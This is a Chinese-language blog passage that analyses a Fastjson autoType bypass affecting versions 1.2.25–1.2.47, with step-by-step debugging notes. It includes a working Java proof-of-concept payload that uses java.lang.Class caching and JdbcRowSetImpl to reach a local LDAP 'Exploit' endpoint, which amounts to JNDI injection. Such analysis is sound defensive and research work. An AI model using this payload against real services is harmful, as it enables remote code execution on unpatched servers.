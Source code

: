 本次Fastjson反序列化漏洞也是基于`checkAutoType()`函数绕过的，并且**无需开启AutoTypeSupport**，大大提高了成功利用的概率。

绕过的大体思路是通过 java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

Demo如下，无需开启AutoTypeSupport，本地Fastjson用的是1.2.47版本：

EXP 如下

JAVA

```
import com.alibaba.fastjson.JSON;
 
public class JdbcRowSetImplPoc {
    public static void main(String[] argv){
        String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
    }
}
```

成功

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Success1247.png)

### 调试分析

实际上还是利用了com.sun.rowset.JdbcRowSetImpl这条利用链来攻击利用的，因此除了JDK版本外几乎没有限制。

但是如果目标服务端开启了AutoTypeSupport呢？经测试发现：

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

在调用`DefaultJSONParser.parserObject()`函数时，其会对JSON数据进行循环遍历扫描解析。

在第一次扫描解析中，进行`checkAutoType()`函数，由于未开启AutoTypeSupport，因此不会进入黑白名单校验的逻辑；由于@type执行java.lang.Class类，该类在接下来的`findClass()`函数中直接被找到，并在后面的if判断clazz不为空后直接返回：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Class.png)

往下调试，调用到`MiscCodec.deserialze()`，其中判断键是否为”val”，是的话再提取val键对应的值赋给objVal变量，而objVal在后面会赋值给strVal变量：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/val.png)![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/val02.png)

接着判断clazz是否为Class类，是的话调用`TypeUtils.loadClass()`加载strVal变量值指向的类：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/StrVal.png)

在`TypeUtils.loadClass()`函数中，成功加载com.sun.rowset.JdbcRowSetImpl类后，就会将其缓存在Map中：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Map.png)
